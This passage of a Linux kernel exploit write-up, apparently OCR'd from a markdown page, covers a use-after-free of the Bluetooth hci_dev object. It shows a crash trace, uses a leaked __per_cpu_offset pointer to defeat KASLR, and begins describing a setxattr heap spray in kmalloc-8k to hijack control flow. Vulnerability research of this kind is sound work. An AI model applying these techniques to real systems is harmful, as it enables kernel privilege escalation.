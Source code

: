 ```
[   17.799170]  do_iter_readv_writev+0x145/0x1c0
[   17.799303]  do_iter_write+0x7b/0x1a0
[   17.799386]  vfs_writev+0x93/0x160
[   17.799527]  ? hci_sock_bind+0xbe/0x650
[   17.799638]  ? __sys_bind+0x8f/0xe0
[   17.799725]  ? do_writev+0x53/0x120
[   17.799804]  do_writev+0x53/0x120
[   17.799882]  do_syscall_64+0x33/0x40
[   17.799969]  entry_SYSCALL_64_after_hwframe+0x44/0xae
[   17.800186] RIP: 0033:0x7fa9ee08d35d
[   17.800405] Code: 28 89 54 24 1c 48 89 74 24 10 89 7c 24 08 e8 ca 26 f9 ff 8b 54 24 1c 48 8b 74 24 10 41 89 c0 8b 7c 24 08 b8 14 00 00 00 0f 05 <48> 3d 008
[   17.800798] RSP: 002b:00007ffe3c870e00 EFLAGS: 00000293 ORIG_RAX: 0000000000000014
[   17.800969] RAX: ffffffffffffffda RBX: 0000556f50a02f30 RCX: 00007fa9ee08d35d
[   17.801118] RDX: 0000000000000003 RSI: 00007ffe3c870ea0 RDI: 0000000000000005
[   17.801267] RBP: 00007ffe3c870ee0 R08: 0000000000000000 R09: 00007fa9edf87700
[   17.801413] R10: 00007fa9edf879d0 R11: 0000000000000293 R12: 0000556f50a00fe0
[   17.801560] R13: 00007ffe3c870ff0 R14: 0000000000000000 R15: 0000000000000000
[   17.801769] Modules linked in:
[   17.801928] CR2: 0000000000000000
[   17.802233] ---[ end trace 2bbc14e693eb3d8f ]---
[   17.802373] RIP: 0010:__queue_work+0xb2/0x3b0
[   17.802492] Code: 8b 03 eb 2f 83 7c 24 04 40 0f 84 ab 01 00 00 49 63 c4 49 8b 9d 08 01 00 00 49 03 1c c6 4c 89 ff e8 73 fb ff ff 48 85 c0 74 d5 <48> 39 030
[   17.802874] RSP: 0018:ffffac4d8021fc20 EFLAGS: 00000086
[   17.803019] RAX: ffff9db3013af400 RBX: 0000000000000000 RCX: 0000000000000000
[   17.803166] RDX: 0000000000000000 RSI: 0000000000000003 RDI: ffffffffbdc4cf10
[   17.803313] RBP: 000000000000000d R08: ffff9db301400040 R09: ffff9db301400000
[   17.803458] R10: 0000000000000000 R11: ffffffffbdc4cf18 R12: 0000000000000000
[   17.803605] R13: ffff9db3021b4c00 R14: ffffffffbdb106a0 R15: ffff9db302260860
[   17.803753] FS:  00007fa9edf9d740(0000) GS:ffff9db33ec00000(0000) knlGS:0000000000000000
[   17.803921] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   17.804042] CR2: 0000000000000000 CR3: 000000000225c000 CR4: 00000000001006f0
```

The registers RDI, R11 and R14 seems store some kernel pointers. Taking a look at the System.map, you will find out the R14 is points to the global variable `__per_cpu_offset`. It will help us to calculate the KASLR offset and then bypass the protection.

```
ffffffff825106a0 R __per_cpu_offset
```

### Exploitation

#### RIP hijacking

With the KASLR bypassed, the next target is to hijack the control flow. To achieve this, the simplest thing is to compromise a code pointer (see below). That is, we have to spray the kernel heap to overwrite the released `hdev`. Thankfully, it is a piece of cake to spray as the `hdev` is one `kmalloc-8k` object. The big size makes its cache rather stable and I can easily spray the `hdev` with `setxattr` syscall.
